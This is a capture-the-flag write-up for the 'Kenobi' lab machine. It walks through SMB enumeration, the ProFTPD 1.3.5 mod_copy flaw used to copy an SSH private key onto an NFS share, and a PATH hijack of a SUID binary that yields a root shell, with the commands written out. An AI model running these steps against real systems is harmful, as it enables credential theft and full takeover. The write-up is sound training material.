

Kenobi
======

Kenobi is an interesting CTF, based on how the challenge is situated towards having a better idea of abusing lack of absolute path names and understanding technologies like FTP and Samba.

## Enumeration

We start off with an nmap scan with a command that looks like this:

```vim
nmap -Pn -v -sV -sC <TARGET_IP>
```


FTP and Samba are frequently misconfigured and can be an attack vector. SSH being enabled allows us a way to connect to the server with ease and an rpcbind port means that we can call upon a service in the network (in this case nfs).

Lets start with Samba first, use the following command to list the shares in the server:

```vim
smbclient -L <TARGET_IP>
```


## Exploit

We can see that we have IPC$ and anonymous which brings the idea of anonymous login. You can log in anonymously using the following command:

```vim
smbclient //<TARGET_IP>/anonymous
```

Once you're in the server, you can list the contents with `ls` and notice there is a log.txt in the share. You can download the file with `get log.txt` and read it with `cat log.txt`.

Here you see the following information which is very interesting:

>Your identification has been saved in /home/kenobi/.ssh/id_rsa.
>Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
>
>  `#` We want clients to be able to login with "anonymous" as well as "ftp"
>  UserAlias			anonymous ftp

This tells us that FTP has anonymous login and where SSH private key is located. We also know that the NFS version is ProFTPD 1.3.5 which specifically has a mod_copy vulnerability. On looking this up, we see this https://www.cvedetails.com/cve/CVE-2015-3306/ where this line is present:

>The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands.

We can look up what CPFR and CPTO does in this website: http://www.proftpd.org/docs/contrib/mod_copy.html

>SITE CPFR command specifies the source file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPFR is:  
>
>  SITE CPFR source-path
>
>SITE CPTO command specifies the destination file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPTO is:
>
>  SITE CPTO destination-path 

Now, we have to look into where we can actually place our copied file to. We can use the NFS here to mount a directory and try to get the id_rsa but we still need to figure out where the NFS is set up. So we use nmap to see if we can find the filepath:

```vim
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <TARGET_IP>
```

We see that the NFS mount is the `/var` directory. So we have found our destination.

So, we can connect to the computer's FTP interface using this command:

```vim
nc <TARGET_IP> 21
```

So once you're connected, you can try something like this:

```vim
SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```



We can now try mounting a directory to the file system and recieve the private key with this set of commands:

```vim
sudo mkdir /mnt/<MOUNT_NAME>

sudo mount <TARGET_IP>:/var /mnt/<MOUNT_NAME>

ls -la /mnt/<MOUNT_NAME>

cp /mnt/<MOUNT_NAME>/tmp/id_rsa ~/ 

chmod 600 id_rsa
```

Now we can try connecting to the target using SSH with this command:

```vim
ssh -i id_rsa <TARGET_IP> -l kenobi
```

The first flag should be in `/home/kenobi/user.txt`

## Priv-Esc

To escalate your privilege we need to find something that will let us execute commands as root or let us figure out how to log in as root. We can't do `sudo -l` as we don't know kenobi's password. So our next best shot is SUID permission. We can find SUID files with this command:

```vim
find / -perm -4000 -user root -exec ls -ld {} \; 2>/dev/null
```

We see an executable called `/usr/bin/menu` which seems interesting. On running it, it gives you 3 options, specifically: `status check`(Seeing if the website is on), `kernel version`, `ifconfig`. We can try to see what the binary has to tell with the `strings /usr/bin/menu` and we get this information:

>curl -I localhost
>uname -r
>ifconfig

This shows us that the executable does not use absolute paths, which means we can make an executable called `curl` which runs `/bin/bash` and the command will run it as such (We need to add the file to $PATH first, but thats not an issue) 

You can achieve this with this set of commands:

```vim
echo /bin/bash > curl

chmod 777 curl

PATH=/home/kenobi:$PATH

menu
```

Here, we just enter `1` and you will get a root shell. The last flag can be found in `/root/root.txt`
